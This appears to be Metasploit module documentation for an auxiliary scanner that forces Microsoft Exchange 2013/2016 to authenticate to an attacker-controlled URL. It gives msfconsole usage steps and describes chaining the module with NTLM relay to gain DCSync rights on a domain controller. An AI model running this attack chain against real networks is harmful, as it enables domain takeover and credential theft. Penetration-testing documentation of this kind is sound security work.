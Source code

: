 ## Vulnerable Application

  * Microsoft Exchange 2013 and 2016
  * Tested on Exchange 2016
  * Usage:
    * Download and install Exchange Server within a Windows domain
    * Setup a mailbox with a domain user
    * Run the module
    * Relay the NTLM authentication to the DC

## Verification Steps

  Example steps:

  1. Start msfconsole
  2. Do: ```use auxiliary/scanner/http/exchange_web_server_pushsubscription```
  3. Do: ```set attacker_url <url>```
  4. Do: ```set rport <target_port>```
  5. Do: ```set rhost <target_IP>```
  6. Do: ```set domain <domain_name>```
  7. Do: ```set password <user_pass>```
  8. Do: ```set username <user_pass>```
  9. Do: ```run```

## Options

  **The ATTACKER_URL option**

  This option should contain a URL under the attacker's control. This is where the Exchange will try to authenticate.

  **The PASSWORD option**
  This can be either the password or the NTLM hash of any domain user with a mailbox configured on Exchange.

## Scenarios

  This module can be used to make a request to the Exchange server and force it to authenticate to a URL under our control. 
  An example scenario is that when this module is combined with an NTLM relay attack, if the Exchange server has the necessary permissions it is possible to grant us DCSync rights.
